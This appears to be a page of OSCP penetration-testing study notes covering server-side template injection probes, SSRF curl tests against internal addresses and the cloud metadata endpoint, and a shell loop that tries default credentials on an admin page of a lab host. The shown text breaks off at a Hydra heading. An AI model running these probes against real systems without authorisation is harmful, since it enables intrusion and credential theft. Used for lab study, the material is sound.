 ## 8) Server-Side Template Injection (SSTI)

**What it is:**
Some web apps use template engines (Jinja2 in Python, Twig in PHP, ERB in Ruby). If you can inject template code, you can often get **server-side execution**.

**Tests:**

```jinja
{{7*7}}     # Jinja2 → expect "49"
${7*7}      # JSP/EL
<%= 7*7 %>  # Ruby ERB
```

⚠️ **Mistake:** Confusing SSTI with XSS.
✅ Fix: I clearly explain the difference (SSTI executes on the server, XSS in browser).

---

## 9) Server-Side Request Forgery (SSRF)

**What it is:**
Server makes HTTP requests on your behalf.
**Goal:** Use it to reach internal services, metadata APIs, or pivot deeper.

**Tests:**

```bash
curl -s "http://10.10.10.56/fetch?url=http://127.0.0.1:22"
curl -s "http://10.10.10.56/fetch?url=http://169.254.169.254/latest/meta-data/"
```

⚠️ **Mistake:** Only testing external URLs.
✅ Fix: Notes remind you to try **localhost/internal IPs + cloud metadata**.

---

## 10) Authentication & Credential Attacks

### 10.1 Quick Default Cred Testing (≤10 min)

Try **these first**:

```bash
# Basic Auth quick test
for c in admin:admin admin:password administrator:admin root:root root:password \
          root: toor admin: admin:1234 user:user test:test guest:guest; do
  curl -s -u "$c" -I http://10.10.10.56/admin/ | head -n1 && echo "Tried $c"
done
```

**Why:** Default creds are the fastest win on OSCP boxes (admin\:admin, root\:root, blank, service\:service, product\:product, etc.).
**Timebox:** Spend max **10 min**. If nothing works, move on.

### 10.2 Hydra (only after defaults fail)
